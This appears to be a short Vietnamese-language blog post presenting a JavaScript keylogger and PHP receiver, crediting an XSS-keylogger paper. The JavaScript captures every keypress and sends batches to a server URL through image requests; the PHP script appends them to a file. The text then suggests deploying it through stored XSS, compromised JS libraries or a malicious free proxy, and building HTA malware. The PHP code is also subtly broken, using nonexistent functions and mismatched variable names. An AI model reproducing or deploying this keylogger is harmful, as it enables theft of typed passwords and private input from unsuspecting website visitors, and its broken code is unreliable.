 ```yaml
---
title: Javascript,PHP Keylogger
date: 30/5/2021
layout: single

--- 
```

---
## Credits: Ismailtasdelen
[Nguồn](https://dl.packetstormsecurity.net/papers/general/xss-keylogger.pdf) 
## Language
[![Language](https://img.shields.io/badge/Lang-javascript-blue.svg)](https://www.javascript.com/)
[![Language](https://img.shields.io/badge/Lang-php-blue.svg)](https://www.php.net/)


--- 

## Mã Kiểm Tra 
# Javascript
---
```js
var buffer = [];
var url = 'http://localhost/?q='

document.onkeypress = function(e) {
    var timestamp = Date.now() | 0;
    var stroke = {
          k: e.key,
          t: timestamp
    };
    buffer.push(stroke);
}

window.SetInterval(function() {
    if (buffer.length > 0) {
          var data = encodeURIComponent(JSON.stringify(buffer));
          new Image().src = url + data;
          buffer = [];
    }
}, 200);
```
---
---
# PHP

```php
<?php
if(!empty($_GET['q'])) {
    $logfile = fopen('data.txt', 'a+');
    file_write($log_file, $_GET['q']);
    file_close($log_file);
}
?>

```
---


## Mô Tả 
# Làm thế nào nó hoạt động?
Trên trình kích hoạt: onkeypress. Phím được nhấn bởi máy khách sẽ được gửi đến máy chủ trên localhost /? Q = (key_here)
Máy chủ sẽ nhận điều này thông qua tập lệnh PHP: Nhận đầu vào từ Q và ghi vào tệp.

Những cải tiến có thể được thực hiện: Ví dụ: triển khai websockets, Ajax, v.v. và gửi dữ liệu trong thời gian thực.

# Tôi có thể sử dụng cái này ở đâu?
XSS được lưu trữ trên các trang web? Thỏa hiệp các thư viện / trang web JS và nhúng JS độc hại.
Chạy proxy miễn phí của riêng bạn và đầu độc người dùng bằng JS độc hại (và bộ nhớ cache) Xem tại link bên dưới 
- https://blog.haschek.at/2013/05/why-free-proxies-are-free-js-infection.html
- https://blog.haschek.at/2015-analyzing-443-free-proxies

Tạo khối lượng phần mềm độc hại của riêng bạn với HTA: html có thể thực thi, v.v.
Chỉ là một số ý tưởng.

## Chúc May Mắn :D
